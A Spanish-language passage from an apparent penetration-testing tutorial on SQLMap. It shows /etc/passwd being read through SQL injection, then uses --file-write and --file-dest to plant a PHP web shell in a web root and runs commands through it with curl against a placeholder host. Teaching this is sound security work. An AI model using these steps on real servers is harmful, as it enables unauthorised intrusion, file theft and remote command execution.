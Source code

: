 ```shell-session
$ cat ~/.sqlmap/output/www.example.com/files/_etc_passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...
```

#### Escritura

Cuando se trata de escribir archivos en el servidor de alojamiento, las restricciones son mucho mayores en los DMBS modernos, ya que podemos utilizar esto para escribir un Web Shell en el servidor remoto y, por lo tanto, ejecutar código y tomar el control del servidor.

  Por eso, los DBMS modernos desactivan la escritura de archivos de forma predeterminada y requieren ciertos privilegios para que los administradores de bases de datos puedan escribir archivos. Por ejemplo, en MySql, la configuración **--secure-file-priv** debe desactivarse manualmente para permitir la escritura de datos en archivos locales utilizando la consulta SQL INTO OUTFILE, además de cualquier acceso local necesario en el servidor host, como el privilegio de escribir en el directorio que necesitamos.

Aun así, muchas aplicaciones web requieren que los DBMS puedan escribir datos en archivos, por lo que vale la pena comprobar si podemos escribir archivos en el servidor remoto. Para hacerlo con SQLMap, podemos utilizar las opciones **--file-write** y **--file-dest**. 

```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.11#stable}
|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 17:54:18 /xxxx-xx-xx/

[17:54:19] [INFO] resuming back-end DBMS 'mysql'
[17:54:19] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
do you want confirmation that the local file 'shell.php' has been successfully written on the back-end DBMS file system ('/var/www/html/shell.php')? [Y/n] y

[17:54:28] [INFO] the local file 'shell.php' and the remote file '/var/www/html/shell.php' have the same size (31 B)
```

```shell-session
$ curl http://www.example.com/shell.php?cmd=ls+-la

total 148
drwxrwxrwt 1 www-data www-data   4096 Nov 19 17:54 .
drwxr-xr-x 1 www-data www-data   4096 Nov 19 08:15 ..
-rw-rw-rw- 1 mysql    mysql       188 Nov 19 07:39 basic.php
...SNIP...
```
